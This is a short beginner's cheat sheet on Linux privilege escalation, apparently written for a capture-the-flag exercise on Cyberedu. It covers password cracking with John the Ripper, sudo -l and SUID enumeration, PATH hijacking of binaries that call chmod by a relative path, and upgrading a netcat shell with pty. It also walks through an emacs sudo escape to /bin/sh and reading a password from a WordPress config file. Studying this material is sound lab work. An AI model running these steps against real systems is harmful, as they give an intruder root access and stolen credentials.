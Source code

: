 # PRIVILEGE ESCALATION FOR BEGGINERS

1. Check if you can crack a password using `johntheripper`
2. Check the `sudo permissions` with: `sudo -l`
3. Check the `suid executables` and their functions with strings or other methods. ` find / -perm -4000 2>/dev/null `
4. If a `method calls an executable without the absolute path`, the `PATH ORDER` can be modified. 
> ex: chmod instead of /bin/chmod 

    -> that means that you can just add a chmod file in the tmp/.secret directory, add the tmp/.secret directory in the path before any other paths. So then this will be executed first -> it will execute /bin/bash for example.

### Tips n Tricks
    
    To create a nice shell do: python3 -c 'import pty; pty.spawn("/bin/bash")'

#
    Sudo -l tells you what commands can the currently logged in user execute as WHICH OTHER USER
    ex: user2 can execute vim as user3

#
    Create a fully interactive shell
    python3 -c 'import pty; pty.spawn("/bin/bash")'

    (inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
#

### For privilege-escalation v2 on Cyberedu:

- Find the password to a user in the wp config file.
- Then log in as that user
- Do `sudo -l`, find that meriot can execute emacs as tony
Search the exploit for emacs: sudo -u tony emacs -Q -nw --eval '(term "/bin/sh")'
- Then you have shell

- For the last one you just look for the `suid binaries` and find the binary fix, with the same issue that chmod is put with relative path so by manipulating the PATH variables you can actually execute your chmod executable first, that can do even /bin/bash with that specified user, escalating privileges.

